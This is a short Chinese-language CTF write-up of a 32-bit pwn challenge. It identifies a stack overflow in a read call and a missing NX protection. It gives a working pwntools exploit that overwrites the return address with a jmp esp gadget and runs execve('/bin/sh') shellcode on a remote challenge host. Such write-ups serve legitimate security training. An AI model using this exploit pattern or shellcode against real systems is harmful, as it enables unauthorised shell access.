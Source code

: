 32位，开启部分relro保护

ida看看代码

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204021030845.png" alt="image-20220402103058800" style="zoom:80%;" />

看到调用run函数，点进去看看

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204021034519.png" alt="image-20220402103438479" style="zoom:80%;" />

明显的，read函数存在栈溢出

思路：

因为没有开启NX保护，可以考虑在栈上写入并执行shellcode，注意可以使用fun函数(也可以ROP gadget搜一下)的那个汇编指令跳转到栈上来执行(esp相当于栈指针)

![image-20220402105638506](https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204021056553.png)

但是留给溢出的字节太少了，只有0x50-0x28-4=0x24，使用python给出的shellcode估计不行

上网搜一下

<img src="https://cdn.jsdelivr.net/gh/lucky-xiaobai/CTFPicture/img/202204021050564.png" alt="image-20220402105038510" style="zoom:80%;" />

exp

```python
from pwn import*

context(arch='i386',os='linux',log_level='debug')
io=remote('txyun.aw31-hack.top',7000)
#io=process('./pwn1')
elf=ELF('./pwn1')

junk=b'a'*(0x28+4)
#run=elf.sym['run']
#fun=elf.sym['fun']
jmp_esp=0x0804843e

shellcode=b'\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80'

payload=junk+p32(jmp_esp)+shellcode
io.sendline(payload)
io.interactive()
```

2022/04/01



## misc

### 杂项(互相出的题目)

下载打开
